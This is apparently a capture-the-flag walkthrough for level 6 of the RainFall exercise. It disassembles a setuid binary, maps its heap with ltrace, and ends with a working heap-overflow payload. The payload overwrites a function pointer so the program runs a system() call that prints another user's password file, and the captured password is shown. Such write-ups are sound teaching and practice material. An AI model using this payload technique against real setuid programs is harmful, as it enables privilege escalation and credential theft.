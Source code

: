 # Level6

## Walkthrough

We list the files in the current home directory.

```bash
level6@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level6 level6   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level6 level6  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level6 level6 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level7 users  5274 Mar  6  2016 level6
-rw-r--r--+ 1 level6 level6   65 Sep 23  2015 .pass
-rw-r--r--  1 level6 level6  675 Apr  3  2012 .profile
level6@RainFall:~$ file level6
level6: setuid setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xb1a5ce594393de0f273c64753cede6da01744479, not stripped
```

The file is owned by **level7** and has the **setuid** bit.

We list the functions inside the executable.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f4  _init
0x08048340  strcpy
0x08048340  strcpy@plt
0x08048350  malloc
0x08048350  malloc@plt
0x08048360  puts
0x08048360  puts@plt
0x08048370  system
0x08048370  system@plt
0x08048380  __gmon_start__
0x08048380  __gmon_start__@plt
0x08048390  __libc_start_main
0x08048390  __libc_start_main@plt
0x080483a0  _start
0x080483d0  __do_global_dtors_aux
0x08048430  frame_dummy
0x08048454  n
0x08048468  m
0x0804847c  main
0x080484e0  __libc_csu_init
0x08048550  __libc_csu_fini
0x08048552  __i686.get_pc_thunk.bx
0x08048560  __do_global_ctors_aux
0x0804858c  _fini
```

There are 3 user-defined functions: `main()`, `m()` and `n()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x0804847c <+0>:     push   ebp
   0x0804847d <+1>:     mov    ebp,esp
   0x0804847f <+3>:     and    esp,0xfffffff0
   0x08048482 <+6>:     sub    esp,0x20
   0x08048485 <+9>:     mov    DWORD PTR [esp],0x40
   0x0804848c <+16>:    call   0x8048350 <malloc@plt>
   0x08048491 <+21>:    mov    DWORD PTR [esp+0x1c],eax
   0x08048495 <+25>:    mov    DWORD PTR [esp],0x4
   0x0804849c <+32>:    call   0x8048350 <malloc@plt>
   0x080484a1 <+37>:    mov    DWORD PTR [esp+0x18],eax
   0x080484a5 <+41>:    mov    edx,0x8048468
   0x080484aa <+46>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ae <+50>:    mov    DWORD PTR [eax],edx
   0x080484b0 <+52>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484b3 <+55>:    add    eax,0x4
   0x080484b6 <+58>:    mov    eax,DWORD PTR [eax]
   0x080484b8 <+60>:    mov    edx,eax
   0x080484ba <+62>:    mov    eax,DWORD PTR [esp+0x1c]
   0x080484be <+66>:    mov    DWORD PTR [esp+0x4],edx
   0x080484c2 <+70>:    mov    DWORD PTR [esp],eax
   0x080484c5 <+73>:    call   0x8048340 <strcpy@plt>
   0x080484ca <+78>:    mov    eax,DWORD PTR [esp+0x18]
   0x080484ce <+82>:    mov    eax,DWORD PTR [eax]
   0x080484d0 <+84>:    call   eax
   0x080484d2 <+86>:    leave
   0x080484d3 <+87>:    ret
End of assembler dump.
```

The `main()` function: 
- calls `malloc()` to allocate `0x40` bytes and store the pointer in `[esp + 0x1c]`
- calls `malloc()` to allocated `0x4` bytes and store the pointer in `[esp + 0x18]`
- calls `strcpy()` to copy `argv[1]` into `[esp + 0x18]`
- calls the function located at the address `[esp + 0x18]`, by default it is `0x8048468`, the address of `m()`

```
(gdb) disas m
Dump of assembler code for function m:
   0x08048468 <+0>:     push   ebp
   0x08048469 <+1>:     mov    ebp,esp
   0x0804846b <+3>:     sub    esp,0x18
   0x0804846e <+6>:     mov    DWORD PTR [esp],0x80485d1
   0x08048475 <+13>:    call   0x8048360 <puts@plt>
   0x0804847a <+18>:    leave
   0x0804847b <+19>:    ret
End of assembler dump.
```

The `m()` function only prints `"Nope"` on stdout.

```
(gdb) disas n
Dump of assembler code for function n:
   0x08048454 <+0>:     push   ebp
   0x08048455 <+1>:     mov    ebp,esp
   0x08048457 <+3>:     sub    esp,0x18
   0x0804845a <+6>:     mov    DWORD PTR [esp],0x80485b0
   0x08048461 <+13>:    call   0x8048370 <system@plt>
   0x08048466 <+18>:    leave
   0x08048467 <+19>:    ret
End of assembler dump.
```

The `n()` function calls `system()` to execute `/bin/cat /home/user/level7/.pass`.

We use the `ltrace` command in order to get the returned addresses from `malloc()`.

```bash
level6@RainFall:~$ ltrace ./level6 
__libc_start_main(0x804847c, 1, 0xbffff714, 0x80484e0, 0x8048550 <unfinished ...>
malloc(64)                                                                                                                                         = 0x0804a008
malloc(4)                                                                                                                                          = 0x0804a050
strcpy(0x0804a008, NULL <unfinished ...>
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

The 2 returned addresses are `0x0804a008` and `0x0804a050`.

We draw a diagram of the heap to confirm that the 2 addresses are stored consecutively.

![Heap diagram](./resources/level6_diagram1.png)

From our analysis of the assembly code, we figure out we have to replace the default call to `m()` with `n()`, in order to get the password for this level.

We know that `strcpy()` receives two arguments:
- a destination string which is the address of the first allocated memory zone (`0x804a008`)
- a source string which is the first argument value passed to the executable

And because we already know that the address located at `0x804a050` will be called by `main()`, we understand that we simply have to use a **buffer overflow** to overwrite the second memory zone with the `n()` address.

We calculate the difference of bytes between the 2 zones: `0x804a050` - `0x804a008` = `0x48` (72).

```bash
level6@RainFall:~$ ./level6 $(python -c "print('A' * 72 + '\x54\x84\x04\x08')")
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
